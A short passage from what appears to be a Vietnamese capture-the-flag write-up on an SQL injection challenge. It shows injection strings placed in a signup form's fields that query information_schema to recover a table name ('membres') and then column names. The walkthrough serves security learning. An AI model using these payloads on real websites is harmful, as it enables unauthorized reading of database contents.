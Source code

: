 - Tiếp theo ta tìm tên bảng: `hotdog'),('cat1', '1234', (select concat(table_name) from information_schema.columns where table_schema='c_webserveur_33' limit 1))-- -`

![1](img/59/5.png)

- Được `membres`.

- Tìm tên cột: `dogss&password=1234&email=hotdog'),('cat2', '1234', (select concat(column_name) from information_schema.columns where table_schema='flag' limit 1))-- -`

![1](img/59/6.png)
